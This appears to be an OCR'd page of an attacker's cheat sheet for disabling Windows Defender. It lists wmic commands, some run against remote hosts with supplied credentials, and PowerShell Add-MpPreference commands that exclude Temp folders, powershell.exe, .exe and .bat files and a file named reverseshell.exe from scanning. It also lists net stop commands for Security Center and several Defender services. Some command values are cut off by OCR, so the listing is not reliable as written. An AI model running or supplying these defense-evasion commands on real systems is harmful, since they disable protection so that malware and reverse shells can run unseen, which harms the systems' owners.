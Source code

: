 > [!INFO] Elevated Privileges is Required
> You must run this as an administrator add any exclusions.

### 2.1 - Command Prompt

```
C:\> wmic.exe [/node:<IP>] [/user:<username> /password:<password>] /namespace:\\root\Microsoft\Windows\Defender class MSFT_MpPreference call Add ExclusionPath=\"

C:\> wmic.exe [/node:<IP>] [/user:<username> /password:<password>] /namespace:\\root\Microsoft\Windows\Defender class MSFT_MpPreference call Add ExclusionPath=\"\Temp\\"

C:\> wmic.exe [/node:<IP>] [/user:<username> /password:<password>] /namespace:\\root\Microsoft\Windows\Defender class MSFT_MpPreference call Add ExclusionPath=\".dll\"

C:\> wmic.exe [/node:<IP>] [/user:<username> /password:<password>] /namespace:\\root\Microsoft\Windows\Defender class MSFT_MpPreference call Add ExclusionPath=\"rundll32.exe\"
```

### 2.2 - PowerShell

```
PS C:\> Add-MpPreference -ExclusionPath C:\Windows\Temp\

PS C:\> Add-MpPreference -ExclusionProcess powershell.exe

PS C:\> Add-MpPreference -ExclusionExtension ".exe"

PS C:\> Add-MpPreference -ExclusionExtension ".bat"

PS C:\> Add-MpPreference -ExclusionPath C:\Windows\Temp\reverseshell.exe
```

## 02 - Windows Security

### 2.1 - Disable

#### 2.1.1 - Command Prompt

```
C:\> net.exe stop "Security Center"
```

Note: Just the rest of these are not tested just yet

```
C:\> net.exe stop "WdNisSvc"

C:\> net.exe stop "WdNisDrv"

C:\> net.exe stop "WdFilter"

C:\> net.exe stop "WdBoot"

C:\> net.exe stop "wcncsvc"
```
